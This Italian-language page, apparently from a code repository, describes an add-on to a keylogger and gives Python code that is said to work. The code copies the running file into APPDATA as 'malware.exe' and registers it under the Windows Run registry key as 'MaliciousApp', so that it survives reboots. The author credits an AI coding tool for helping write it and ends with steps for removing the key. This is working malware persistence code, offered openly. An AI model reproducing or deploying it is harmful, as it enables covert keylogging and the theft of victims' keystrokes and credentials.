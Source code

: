 ## Modifiche al keylogger

Questa parte del codice, aggiunta a quello precedentemente citato del keylogger+InterfacciaUtente, permette di ottenere persistence contro il riavvio o lo spegnimento del computer, l'ho programmata con l'aiuto di BlackBox AI [[10]](https://www.blackbox.ai/). 

Questo codice è funzionante:

```python
import os
import shutil
import sys
import winreg as reg

def add_to_startup(file_path=""):
    if file_path == "":
        file_path = os.path.dirname(os.path.realpath(__file__))
    
    # Copia il file nella directory persistente
    persistent_path = os.path.join(os.environ["APPDATA"], "malware.exe")
    shutil.copyfile(file_path, persistent_path)
    
    # Crea una chiave di registro per avviare il malware all'avvio
    key = reg.HKEY_CURRENT_USER
    key_value = "Software\\Microsoft\\Windows\\CurrentVersion\\Run"
    key_name = "MaliciousApp"
    
    open_key = reg.OpenKey(key, key_value, 0, reg.KEY_ALL_ACCESS)
    reg.SetValueEx(open_key, key_name, 0, reg.REG_SZ, persistent_path)
    reg.CloseKey(open_key)

if __name__ == "__main__":
    # Verifica se il file è già stato copiato nella directory persistente
    if not os.path.exists(os.path.join(os.environ["APPDATA"], "malware.exe")):
        add_to_startup(sys.argv[0])
```

Dopo aver eseguito lo script, per rimuovere la chiave dal registro bisogna accedere alla utility regedit dal prompt dei comandi con l'identità dell'amministratore, selezionare il seguente percorso: "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run", e cancellare la chiave "MaliciousApp" (definita nel codice soprastante).

